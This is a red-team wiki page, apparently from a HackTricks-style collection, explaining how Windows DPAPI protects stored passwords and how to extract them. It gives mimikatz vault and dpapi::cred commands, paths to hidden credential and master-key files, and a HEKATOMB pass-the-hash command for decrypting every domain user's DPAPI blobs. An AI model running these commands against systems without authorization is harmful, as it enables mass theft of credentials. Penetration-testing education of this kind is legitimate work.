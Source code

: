 # DPAPI - Extracting Passwords

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in ByteBreach**? or do you want to have access to the **latest version of the PEASS or download ByteBreach in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**bytebreach repo**](https://github.com/khulnasoft/bytebreach) **and** [**bytebreach-cloud repo**](https://github.com/khulnasoft/bytebreach-cloud).

</details>

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) is the most relevant cybersecurity event in **Spain** and one of the most important in **Europe**. With **the mission of promoting technical knowledge**, this congress is a boiling meeting point for technology and cybersecurity professionals in every discipline.

{% embed url="https://www.rootedcon.com/" %}


## What is DPAPI

The Data Protection API (DPAPI) is primarily utilized within the Windows operating system for the **symmetric encryption of asymmetric private keys**, leveraging either user or system secrets as a significant source of entropy. This approach simplifies encryption for developers by enabling them to encrypt data using a key derived from the user's logon secrets or, for system encryption, the system's domain authentication secrets, thus obviating the need for developers to manage the protection of the encryption key themselves.

### Protected Data by DPAPI

Among the personal data protected by DPAPI are:

- Internet Explorer and Google Chrome's passwords and auto-completion data
- E-mail and internal FTP account passwords for applications like Outlook and Windows Mail
- Passwords for shared folders, resources, wireless networks, and Windows Vault, including encryption keys
- Passwords for remote desktop connections, .NET Passport, and private keys for various encryption and authentication purposes
- Network passwords managed by Credential Manager and personal data in applications using CryptProtectData, such as Skype, MSN messenger, and more


## List Vault

```bash
# From cmd
vaultcmd /listcreds:"Windows Credentials" /all

# From mimikatz
mimikatz vault::list
```

## Credential Files

The **credentials files protected** could be located in:

```
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

Get credentials info using mimikatz `dpapi::cred`, in the response you can find interesting info such as the encrypted data and the guidMasterKey.

```bash
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\28350839752B38B238E5D56FDD7891A7

[...]
guidMasterKey      : {3e90dd9e-f901-40a1-b691-84d7f647b8fe}
[...]
pbData             : b8f619[...snip...]b493fe
[..]
```

You can use **mimikatz module** `dpapi::cred` with the appropiate `/masterkey` to decrypt:

```
dpapi::cred /in:C:\path\to\encrypted\file /masterkey:<MASTERKEY>
```

## Master Keys

The DPAPI keys used for encrypting the user's RSA keys are stored under `%APPDATA%\Microsoft\Protect\{SID}` directory, where {SID} is the [**Security Identifier**](https://en.wikipedia.org/wiki/Security\_Identifier) **of that user**. **The DPAPI key is stored in the same file as the master key that protects the users private keys**. It usually is 64 bytes of random data. (Notice that this directory is protected so you cannot list it using`dir` from the cmd, but you can list it from PS).

```bash
Get-ChildItem C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem C:\Users\USER\AppData\Local\Microsoft\Protect
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\{SID}
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\{SID}
```

This is what a bunch of Master Keys of a user will looks like:

![](<../../.gitbook/assets/image (324).png>)

Usually **each master keys is an encrypted symmetric key that can decrypt other content**. Therefore, **extracting** the **encrypted Master Key** is interesting in order to **decrypt** later that **other content** encrypted with it.

### Extract master key & decrypt

Check the post [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#extracting-dpapi-backup-keys-with-domain-admin) for an example of how to extract the master key and decrypt it.


## SharpDPAPI

[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI#sharpdpapi-1) is a C# port of some DPAPI functionality from [@gentilkiwi](https://twitter.com/gentilkiwi)'s [Mimikatz](https://github.com/gentilkiwi/mimikatz/) project.

## HEKATOMB

[**HEKATOMB**](https://github.com/Processus-Thief/HEKATOMB) is a tool that automates the extraction of all users and computers from the LDAP directory and the extraction of domain controller backup key through RPC. The script will then resolve all computers ip address and perform a smbclient on all computers to retrieve all DPAPI blobs of all users and decrypt everything with domain backup key.

`python3 hekatomb.py -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 -debug -dnstcp`

With extracted from LDAP computers list you can find every sub network even if you didn't know them !

"Because Domain Admin rights are not enough. Hack them all."

## DonPAPI

[**DonPAPI**](https://github.com/login-securite/DonPAPI) can dump secrets protected by DPAPI automatically.

## References

* [https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=28#13](https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=28#13)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#using-dpapis-to-encrypt-decrypt-data-in-c)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) is the most relevant cybersecurity event in **Spain** and one of the most important in **Europe**. With **the mission of promoting technical knowledge**, this congress is a boiling meeting point for technology and cybersecurity professionals in every discipline.

{% embed url="https://www.rootedcon.com/" %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in ByteBreach**? or do you want to have access to the **latest version of the PEASS or download ByteBreach in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**bytebreach repo**](https://github.com/khulnasoft/bytebreach) **and** [**bytebreach-cloud repo**](https://github.com/khulnasoft/bytebreach-cloud).

</details>
